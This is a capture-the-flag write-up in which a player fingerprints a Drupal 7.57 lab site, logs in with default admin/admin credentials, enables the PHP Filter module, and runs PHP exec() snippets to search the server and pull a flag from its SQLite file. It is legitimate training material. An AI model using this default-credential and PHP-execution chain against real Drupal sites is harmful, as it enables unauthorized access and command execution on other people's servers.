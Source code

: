 # Our new site! (exploit) (author: SNN)
![Alt text](image-challenge-intro.png)

## Description

```shell
We already started thinking about 2024! Our test site is already up and running.

Please help us and contribute!

username: user password: woAheZiUWZPW9wEYKYG
```

## Task analysis & solution
First thing first:
Trying to ssh to that port and number:

```shell
└ $ ssh user@10.10.8.61 -p 34155
kex_exchange_identification: Connection closed by remote host
└ $ ssh user@10.10.8.61 -p 34155 -v
OpenSSH_for_Windows_8.1p1, LibreSSL 3.0.2
debug1: Connecting to 10.10.8.61 [10.10.8.61] port 34155.
debug1: Connection established.
debug1: identity file C:\\Users\\snn/.ssh/id_rsa type -1
debug1: identity file C:\\Users\\snn/.ssh/id_rsa-cert type -1
debug1: identity file C:\\Users\\snn/.ssh/id_dsa type -1
debug1: identity file C:\\Users\\snn/.ssh/id_dsa-cert type -1
debug1: identity file C:\\Users\\snn/.ssh/id_ecdsa type -1
debug1: identity file C:\\Users\\snn/.ssh/id_ecdsa-cert type -1
debug1: identity file C:\\Users\\snn/.ssh/id_ed25519 type 3
debug1: identity file C:\\Users\\snn/.ssh/id_ed25519-cert type -1
debug1: identity file C:\\Users\\snn/.ssh/id_xmss type -1
debug1: identity file C:\\Users\\snn/.ssh/id_xmss-cert type -1
debug1: Local version string SSH-2.0-OpenSSH_for_Windows_8.1
debug1: kex_exchange_identification: banner line 0: HTTP/1.1 400 Bad Request
debug1: kex_exchange_identification: banner line 1: Date: Tue, 26 Dec 2023 21:21:15 GMT
debug1: kex_exchange_identification: banner line 2: Server: Apache/2.4.10 (Debian)
debug1: kex_exchange_identification: banner line 3: Content-Length: 302
debug1: kex_exchange_identification: banner line 4: Connection: close
debug1: kex_exchange_identification: banner line 5: Content-Type: text/html; charset=iso-8859-1
debug1: kex_exchange_identification: banner line 6:
debug1: kex_exchange_identification: banner line 7: <!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
debug1: kex_exchange_identification: banner line 8: <html><head>
debug1: kex_exchange_identification: banner line 9: <title>400 Bad Request</title>
debug1: kex_exchange_identification: banner line 10: </head><body>
debug1: kex_exchange_identification: banner line 11: <h1>Bad Request</h1>
debug1: kex_exchange_identification: banner line 12: <p>Your browser sent a request that this server could not understand.<br />
debug1: kex_exchange_identification: banner line 13: </p>
debug1: kex_exchange_identification: banner line 14: <hr>
debug1: kex_exchange_identification: banner line 15: <address>Apache/2.4.10 (Debian) Server at 172.17.0.6 Port 80</address>
debug1: kex_exchange_identification: banner line 16: </body></html>
kex_exchange_identification: Connection closed by remote host
└ $
```
No results access, let's give up ssh for now.

Try in a web browser:
![Alt text](image-drupal-home.png)

Good! As we can see we are in some page that was developed by 
`Drupal`

A quick search in web the `Drupal is a free and open-source web content management system written in PHP and distributed under the GNU General Public License. Wikipedia`

So we are in the CMS site and as the hint in the challenge sais - `Please help us and contribute!`

When opened the browser's development tools we can try to see more details about the site:

```web
<meta name="Generator" content="Drupal 7 (http://drupal.org)">
```

From here we understood that we are dealing with Drupal version 7.

Check if we have robots.txt contents:
http://10.10.8.61:34155/robots.txt


```web
#
# robots.txt
#
# This file is to prevent the crawling and indexing of certain parts
# of your site by web crawlers and spiders run by sites like Yahoo!
# and Google. By telling these "robots" where not to go on your site,
# you save bandwidth and server resources.
#
# This file will be ignored unless it is at the root of your host:
# Used:    http://example.com/robots.txt
# Ignored: http://example.com/site/robots.txt
#
# For more information about the robots.txt standard, see:
# http://www.robotstxt.org/robotstxt.html

User-agent: *
Crawl-delay: 10
# CSS, JS, Images
# Files
...
Disallow: /CHANGELOG.txt
...

```
Opening the site url
```url
http://10.10.8.61:34155/CHANGELOG.txt
```

```web
Drupal 7.57, 2018-02-21
-----------------------
- Fixed security issues (multiple vulnerabilities). See SA-CORE-2018-001.

Drupal 7.56, 2017-06-21
-----------------------
- Fixed security issues (access bypass). See SA-CORE-2017-003.

Drupal 7.55, 2017-06-07
```

From here we can see that we are dealing with Drupal v. 7.57, date 2018-02-21

Now we have to see what vulnerabilities we might find on the web:
![Alt text](image-drupal-7.57-exploit.png)

I've tried many metasploit from first suggestion, without success:

![Alt text](image-dupalgeddon-metasploit.png)


Anyway...most of the articles were about remote code execution with php module. However in our case php is not installed. 

Then I started to find what I might need to install php on this site - to have admin access.

Quick search on net for "Drupal 7 admin explot":
I've got these two results:
![Alt text](image-drupal-7-admin-exploit.png)

Since I knewed that SQL is of no interest, 
I've put more effort in second result: 
[Drupal 7x exploitation](https://medium.com/@yasmeena_rezk/drupal-7-x-exploitation-7eb1c7cfa4dc)

I've tried all from the beginning but I was excited about this line:
```python
# python2.7  drupalgeddon.py -t <url> -u <username>-p <password>
python2.7  drupalgeddon.py -t http://drupal-qa.ex.com -u admin -p admin
```

No matter that the article was about Drupal 7.30, I 
immediately decided to give it a try with admin/admin for access -> 

:voila:

![Alt text](image-drupal-admin.png)

Stupid I know, I should've tried these first! 
Anyway now the fun part:
1. Go to Modules
2. Enable PHP Filter
3. Save Configuration:

![Alt text](image-drupal-admin-php.png)

Now go and add an article:
![Alt text](image-drupal-article.png)

When you click on preview button we can see that our command has executed a php code:
![Alt text](image-drupal-php-code.png)

It looks like we are in /var/www/html folder so why not search for a file containing the flag, which sohuld start with ***MilestoneCTF***.
I decided to look one folder upper - /var/www

Here we can see that by using this code:

```code
<?php
// outputs the username that owns the running php/httpd process
// (on a system with the "whoami" executable in the path)
$output=null;
$retval=null;
exec('grep -Rnw "/var/www" -e "MilestoneCTF"', $output, $retval);
echo "Returned with status $retval and output:\n";
print_r($output);
?>
```

We have find a file **/var/www/html/sites/default/files/.ht.sqlite** that contains something with ***MilestoneCTF***
![Alt text](image-drupal-php-execution.png)

Let's put grep magic here:

```php
<?php
// outputs the username that owns the running php/httpd process
// (on a system with the "whoami" executable in the path)
$output=null;
$retval=null;

exec('strings /var/www/html/sites/default/files/.ht.sqlite | grep -m 1 -e "MilestoneCTF"', $output, $retval);
echo "Returned with status $retval and output:\n";
print_r($output);
?>
```
![Alt text](image-drupal-grep-result.png)


> The flag was inside sqlite database in plain text:
> ### ***MilestoneCTF{this-is-a-really-nice-flag}***
